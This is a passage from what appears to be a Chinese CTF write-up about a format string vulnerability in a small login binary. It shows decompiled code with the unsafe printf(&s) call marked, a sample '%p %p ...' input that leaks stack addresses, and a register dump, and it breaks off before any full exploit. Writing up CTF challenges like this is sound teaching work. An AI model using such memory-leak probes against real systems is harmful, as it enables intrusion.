 ```cpp
  puts("Hi, please input your name:");
  read_func(&s1, 16LL);                         // equal to read(buf,size)
  if ( !strcmp(&s1, "root") )
  {
    printf("%s welcome to go home !\n", &s1);
    puts("Oh, I also need your password:");
    while ( 1 )
    {
      memset(&s, 0, 0x60uLL);
      read_func(&s, 0x50LL);
      if ( !strcmp(&s, &buf) )
        break;
      printf("Your password ", &buf);
      printf(&s);                               // vuln
      puts(" seem not ture......");
      if ( !exit_flag )
      {
        puts("Bye~");
        exit(0);
      }
      puts("Try again!");
      exit_flag = 0;
    }
    puts("You are my root!");
    exit(0);
  }
  puts("Who are you?");
  exit(0);
}
```

## 调试分析

在输入中输入格式化字符串`%x`，程序会打印栈上的信息：

```shell
Hi, please input your name:
root
root welcome to go home !
Oh, I also need your password:
%p %p %p %p %p %p %p %p %p
Your password 0x7ffce2b24580 0x7f06e850d8c0 (nil) 0xe 0x7f06e828ef70 (nil) 0x300000000 0x6db2adca20d558ab (nil) seem not ture......
Try again!
```

此时寄存器与栈的布局如下所示：

```shell
 #reg
 RAX  0x0
 RBX  0x0
 RCX  0x0
 RDX  0x7f06e850d8c0 
 RDI  0x7ffce2b26c60 -> '%p %p %p %p %p %p %p %p %p'
 RSI  0x7ffce2b24580 -> 'Your password o go home !\n'
 R8   0xe
 R9   0x7f06e828ef70
 R10  0x3
 R11  0x246
 R12  0x565314ac6a30 
 R13  0x7ffce2b26db0 
 R14  0x0
 R15  0x0
 RBP  0x7ffce2b26cd0 
```